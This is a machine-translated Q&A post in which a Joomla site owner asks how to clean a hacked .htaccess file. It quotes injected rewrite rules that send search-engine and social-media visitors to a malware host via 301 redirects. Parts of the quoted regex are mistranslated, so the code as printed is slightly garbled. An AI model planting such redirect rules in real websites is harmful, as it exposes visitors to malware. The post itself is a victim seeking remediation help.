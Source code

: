 # joomla - Joomla：寻求有关纠正 .htaccess 文件恶意软件问题的建议

> ID：12192076
> 
> 赞同：0
> 
> 时间：2012-08-30T07:38:50.870
> 
> 标签：joomla

在这里寻求一些建议。

我运行一个基于（旧版本）Joomla 的网站和论坛。4 年来一切都很好，直到周末，用户开始收到来自防病毒软件的警告，表明该网站上存在恶意软件。

已运行 Google 网站管理员工具，它指出 .htaccess 文件中存在恶意软件。

果然，我可以看到 .htaccess 文件确实在恶意软件报告开始的那天早上更新了。我在这里阅读了其他一些 q，这表明这并不少见........而且我还阅读了一些建议，您可能需要也可能不需要 .ht 访问文件。

我发现的是这样的：

RewriteEngine On
RewriteCond %{HTTP_REFERER} ^。*(google|ask|yahoo|baidu|youtube|wikipedia|qq|excite|altavista|msn|netscape|aol|hotbot|goto|infoseek|mamma|alltheweb|lycos|search|metacrawler|bing|dogpile|facebook|twitter|blog |live|myspace|linkedin|flickr|nigma|liveinternet|vkontakte|webalta|filesearch|yell|openstat|metabot|nol9|zoneru|km|gigablast|entireweb|amfibi|dmoz|yippy|search|walhello|webcrawler|jayde|findwhat |teoma|euroseek|wisenut|about|thunderstone|ixquick|terra|lookle|metaeureka|searchspot|slider|topseven|allthesites|libero|clickey|galaxy|brainysearch|pocketflier|verygoodsearch|bellnet|freenet|fireball|flemiro|suchbot|acoon |网络内容|devaro|fastbot|netzindex|abacho|allesklar|suchnase|schnellsuche|sharelook|sucharchiv|suchbiene|suchmaschine|web-archiv|infospace).(.* )
RewriteRule ^(.*)$ [http://laspector.pro/cyrculate?8](http://laspector.pro/cyrculate?8) [R=301,L]
RewriteCond %{HTTP_REFERER} ^.*(web|websuche|witch|wolong|oekoportal|t-online|freenet|arcor|alexana|tiscali|kataweb|orange|voila|sfr|startpagina|kpnvandaag|ilse|wanadoo|telfort|hispavista|passagen|spray|eniro|telia |bluewin|sympatico|nlsearch|atsearch|klammeraffe|sharelook|suchknecht|ebay|abizdirectory|alltheuk|bhanvad|daffodil|click4choice|exalead|findelio|gasta|gimpsy|globalsearchdirectory|hotfrog|jobrapido|kingdomseek|mojeek|searchers|simplyhired|splut |竞技场|thisisouryear|ukkey|uwe|朋友重聚|jaan|qp|rtl|search-belgium|apollo7|bricabrac|findloo|kobala|limier|express|bestireland|browseireland|finditireland|iesearch|爱尔兰信息|kompass|startsiden |confex|finnalle|gulesider|keyweb|finnfirma|kvasir|savio|sol|startsiden|allpages|america|botw|chapu|claymont|clickz|clush|ehow|findhow|icq|goo|westaustraliaonline).(.* )
RewriteRule ^(.*)$ [http://laspector.pro/cyrculate?8](http://laspector.pro/cyrculate?8) [R=301,L]
/IfModule>
恶意软件检查提到的具体项目是 Laspector。

所以，我的问题是：

1.  我可以安全地删除 .htaccess 文件的 .content 或它的某个子集吗？
2.  我们甚至需要一个 .htaccess 文件吗？

该网站是开放访问（无需登录），论坛需要注册和登录，如果这是相关的。

感谢任何人都可以提供的任何建议。

* * *
